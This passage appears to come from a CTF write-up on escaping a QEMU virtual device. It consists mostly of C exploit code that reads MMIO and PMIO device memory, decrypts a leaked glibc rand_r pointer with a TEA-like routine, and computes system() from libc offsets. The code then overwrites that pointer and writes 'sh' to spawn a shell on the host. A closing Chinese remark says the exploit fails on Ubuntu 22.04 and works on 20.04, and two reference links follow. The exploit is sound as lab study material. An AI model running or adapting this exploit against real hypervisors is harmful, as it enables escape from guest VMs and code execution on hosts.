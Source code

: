 ```assembly
void decode(uint32_t v[2]){
    uint32_t i = 0;
    do{
        i -= 0x61C88647;
        v[0] += ((v[1]<<4))^(v[1]+i)^((v[1]>>5));
        v[1] += ((v[0]<<4))^(v[0]+i)^((v[0]>>5));
    } while(i!=0xC6EF3720);
}
 
void encode(uint32_t v[2]){
    uint32_t i = 0xC6EF3720;
    do{
        v[1] -= ((v[0]<<4))^(v[0]+i)^((v[0]>>5));
        v[0] -= ((v[1]<<4))^(v[1]+i)^((v[1]>>5));
        i += 0x61C88647;
    } while(i);
}
 
int main(){
    mmio_mem = (uint64_t)mmap_file(sys_mem_file, mmio_mem_size, mmio_phy_base);
    printf("[+] Mmap mmio physical memory to [%p-%p].\n", (void *)mmio_mem, (void *)(mmio_mem+mmio_mem_size));
    if(iopl(3)) die("PMIO PERMISSION ERROR!");
 
    pmio_write(0, 1);        // memory_mode = 1
    pmio_write(4, 0);        // key[0-3] = 0
    pmio_write(8, 0x100);    // seek = 0x100
    printf("[*] Set block seek: %#x.\n", pmio_read(8));
 
    uint64_t glibc_randr = mmio_read(24);
    decode(&glibc_randr);
    printf("[*] rand_r@glibc %#lx.\n", glibc_randr);
    uint64_t glibc_system = glibc_randr-libc_rand_r_offset+libc_system_offset;
    printf("[+] system@glibc: %#lx.\n", glibc_system);
 
    encode(&glibc_system);
    printf("[*] Overwrite rand_r ptr.\n");
    mmio_write(24, glibc_system);
 
    pmio_write(28, 0x6873);    // "sh"
    return 0;
}
```

我这里用的ubuntu22.04直接bus error，换用ubuntu20.04

参考链接：

https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458382818&idx=1&sn=e6de0a1bc04d51c1edade0a531f54e73&chksm=b180c16886f7487ec647ca4518bacf921f88f1cc0a2dfd060d73d9963ae08d28be32c7692e9b&scene=27

https://bbs.kanxue.com/thread-275216.htm#msg_header_h2_6